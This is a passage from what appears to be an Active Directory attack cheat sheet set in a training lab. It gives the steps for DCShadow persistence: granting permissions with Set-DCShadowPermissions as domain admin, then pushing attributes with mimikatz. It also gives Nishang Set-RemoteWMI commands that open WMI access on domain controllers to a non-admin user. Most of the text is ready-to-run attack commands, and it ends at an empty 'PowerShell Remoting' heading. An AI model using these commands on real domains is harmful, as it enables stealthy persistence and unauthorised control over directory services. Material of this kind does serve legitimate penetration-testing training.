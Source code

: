 3. Run the below command from a PowerShell session running as DA:
    
    ```powershell
    . .\Set-DCShadowPermissions.ps1
    Set-DCShadowPermissions -FakeDC "fake-dc" -SamAccountName "STUDENT2" -Username "STUDENT1" -Verbose
    ```
    
4. Then as STUDENT1 run mimikatz and push the attributes:
    
    ```
    :: mimikatz.exe
    mimikatz # lsadump::dcshadow /push
    ```
    
5. In order to remove the just provided permissions:
    
    ```powershell
    . .\Set-DCShadowPermissions.ps1
    Set-DCShadowPermissions -FakeDC "fake-dc" -SamAccountName "STUDENT2" -Username "STUDENT1" -Verbose -Remove
    ```
    

## Windows Management Instrumentation (WMI)

ACLs can be modified to allow non-admin users access to securable objects.

Allow access permission on local machine for STUDENT1 user:

```powershell
# Nishang
Set-RemoteWMI -UserName "STUDENT1" -namespace "root\cimv2" -Verbose
```

Allow access permission on a remote machine for STUDENT1 without explicit credentials

```powershell
# Nishang
Set-RemoteWMI -UserName "STUDENT1" -ComputerName "DC" -namespace "root\cimv2" -Verbose
```

Allow access permission on a remote machine with explicit credentials. Only root2 and nested namespaces:

```powershell
# Nishang
Set-RemoteWMI -UserName "STUDENT1" -ComputerName "cyberlab-dc" -Credential "Administrator" -namespace "root\cimv2" -Verbose
```

Remove access permission on a remote machine remove permissions :

```powershell
# Nishang
Set-RemoteWMI -UserName "STUDENT1" -ComputerName "cyberlab-dc" -namespace "root\cimv2" -Remove -Verbose
```

## PowerShell Remoting
